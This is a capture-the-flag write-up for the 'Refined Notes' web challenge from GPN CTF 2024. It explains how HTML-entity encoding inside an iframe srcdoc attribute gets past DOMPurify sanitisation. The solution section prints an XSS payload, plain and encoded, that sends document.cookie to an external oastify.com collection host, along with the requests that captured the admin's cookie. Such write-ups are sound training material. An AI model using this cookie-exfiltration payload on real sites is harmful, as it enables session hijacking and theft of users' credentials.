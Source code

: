 ```yaml
---
ctf-event: GPN CTF 2024
date: 2024-06-01
ctf-team: luxeria
ctf-task: Refined Notes
ctf-category: web
ctf-difficulty: 
---
```

# Refined Notes

## Description

> All my friends warned me about xss, so I created this note taking app that only accepts "refined" Notes.

## Analysis

The website has an input text field:
![](_attachments/Pasted%20image%2020240601003220.png)

On submit, the user input is sanitized client-side by DOMPurify and then sent to the server:
```js
submit.addEventListener('click', (e) => {
    const purified = DOMPurify.sanitize(note.value);
    fetch("/", {
        method: "POST",
        body: purified
    }).then(response => response.text()).then((id) => {
        window.history.pushState({page: ''}, id, `/${id}`);
        submit.classList.add('hidden');
        note.classList.add('hidden');
        noteframe.classList.remove('hidden');
        noteframe.srcdoc = purified;
    });
});
```

Example:
```http
POST / HTTP/1.1
Host: run-it--juelz-santana-7793.ctf.kitctf.de
[...]

ThisIsMyInput

HTTP/1.1 200 OK
[...]

0a9f3f23-03a6-4221-ae29-326adb83717d
```

The response returns a UUID for a new note. When this note is accessed, the user input is shown directly in the HTTP response in the `srcdoc` attribute of an `iframe` tag:
```http
GET /0a9f3f23-03a6-4221-ae29-326adb83717d HTTP/1.1
Host: run-it--juelz-santana-7793.ctf.kitctf.de
[...]

HTTP/1.1 200 OK
[...]

<!DOCTYPE html>
[...]
<iframe id="noteframe" class=" bg-white w-full px-3 py-2 border rounded-md h-60" srcdoc="ThisIsMyInput"></iframe>
[...]
```

Another endpoint accepts a note UUID which will be visited by an admin user:
![](_attachments/Pasted%20image%2020240601212925.png)

## Solution

The following payload could be used to read the cookie and exfiltrate it to an external system:
```html
<img src=x onerror="fetch('https://637nljzj6517nkhpr96kbngvfmld9axz.oastify.com' + '/?flag=' + document.cookie)">
```

This payload is however correctly sanitized. However, it's possible to use HTML encoded values inside the `srcdoc` attribute of the `iframe` tag. This can e.g. be converted using CyberChef:
```html
&lt;img src&equals;x onerror&equals;&quot;fetch&lpar;&apos;https&colon;&sol;&sol;637nljzj6517nkhpr96kbngvfmld9axz&period;oastify&period;com&apos; &plus; &apos;&sol;&quest;flag&equals;&apos; &plus; document&period;cookie&rpar;&quot;&gt;
```

Submit this payload:
```http
POST / HTTP/1.1
Host: run-it--juelz-santana-7793.ctf.kitctf.de
[...]

&lt;img src&equals;x onerror&equals;&quot;fetch&lpar;&apos;https&colon;&sol;&sol;637nljzj6517nkhpr96kbngvfmld9axz&period;oastify&period;com&apos; &plus; &apos;&sol;&quest;flag&equals;&apos; &plus; document&period;cookie&rpar;&quot;&gt;

HTTP/1.1 200 OK
[...]

a9e39bd7-e234-45ee-a2c2-bc388b58ff02
```

Sending this  UUID to the admin to let the admin visit the prepared note containing the XSS payload. When the admin visits this page,  a request will be sent to the server containing the cookie which is the flag:
```http
GET /?flag=flag=GPNCTF%7B3nc0d1ng_1s_th3_r00t_0f_4ll_3v1l%7D HTTP/1.1
Host: 637nljzj6517nkhpr96kbngvfmld9axz.oastify.com
[...]
```

## Resources

- https://github.com/apostrophecms/sanitize-html/issues/217